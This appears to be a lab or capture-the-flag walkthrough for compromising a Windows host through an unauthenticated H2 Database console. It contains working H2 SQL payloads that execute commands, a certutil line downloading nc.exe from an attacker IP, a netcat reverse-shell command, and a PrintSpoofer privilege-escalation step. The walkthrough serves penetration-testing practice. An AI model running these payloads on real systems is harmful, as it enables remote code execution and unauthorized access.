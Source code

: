 ## Takeaway
- If you can't run basic commands like `whoami`, `systeminfo`,`powershell`, it is probably lack paths in the evironmental variable.
	- One can add by running `set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;`
## Metadata
- Port `80` is running a introduction page for `H2 Database`.![[Pasted image 20240323170508.png]]
- While port `8082` is `H2 Console` for connecting databases.![[Pasted image 20240323170559.png]]
	- One can identify that there is a database called `test` and a user `sa` that does not require password to access the database.![[Pasted image 20240323170957.png]]
		- Login as `sa`, one can identify further that the version of `H2 Database`  is `1.4.199`![[Pasted image 20240323171356.png]]
		- `searchsploit` will identify that the version is vulnerable to `JNI Code Execution`.![[Pasted image 20240323171450.png]]
- `SeImpersonatePrivilege` on user `tony`
# Exploitation
## Shell as tony
- Following the `searchsploit` note:
	- First Write and load native library![[Pasted image 20240323175132.png]]
	- Transfer `nc.exe` onto target machine with![[Pasted image 20240323175240.png]]
	```shell
	CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
	CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c mkdir C:\\tmp").getInputStream()).useDelimiter("\\Z").next()');
	CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -f http://192.168.45.189/Windows/nc.exe C:\\tmp\\nc.exe").getInputStream()).useDelimiter("\\Z").next()');
	CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c dir C:\\tmp").getInputStream()).useDelimiter("\\Z").next()');
	```
	- Finally, run nc.exe to receive a reverse shell as `tony`![[Pasted image 20240323175352.png]]
	```shell
	CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:\\tmp\\nc.exe 192.168.45.189 80 -e cmd.exe").getInputStream()).useDelimiter("\\Z").next()');
	```
# PrivEsc
- `PrintSpoofer64.exe` works.
